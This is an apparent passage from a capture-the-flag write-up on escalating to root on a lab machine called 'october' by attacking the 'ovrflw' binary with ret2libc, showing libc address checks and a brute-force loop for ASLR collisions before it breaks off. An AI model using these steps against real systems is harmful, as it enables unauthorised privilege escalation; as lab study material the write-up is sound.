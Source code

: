 This tool help when you want to understand how buffer overflow works 

- [https://github.com/hugsy/gef](https://github.com/hugsy/gef)

## Process to be Root

```bash
www-data@october:/$ ldd /usr/local/bin/ovrflw
	linux-gate.so.1 =>  (0xb7720000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7566000)
	/lib/ld-linux.so.2 (0x8009d000)
www-data@october:/$
```

Is dynamic 

```bash
www-data@october:/$ for i in $(seq 10); do ldd /usr/local/bin/ovrflw | grep libc | awk 'NF{print $NF}' | tr -d '()'; done
0xb75d1000
0xb7601000
0xb75b8000
0xb75de000
0xb757e000
0xb7605000
0xb75e1000
0xb75ac000
0xb75aa000
0xb762a000
www-data@october:/$
```

## Ret2libc

*The addresses are very small because the machine is a 32 bit machine*

If you copy one address I copy this

```bash
0xb75de000
```

With this we can see that there is a collision

```bash
www-data@october:/$ for i in $(seq 100000); do ldd /usr/local/bin/ovrflw | grep libc | awk 'NF{print $NF}' | tr -d '()'; done | grep "0xb75de000"
0xb75de000
0xb75de000
0xb75de000
0xb75de000
^C
www-data@october:/$
```

```bash
www-data@october:/$ cd /tmp
www-data@october:/tmp$ touch buff.py
```
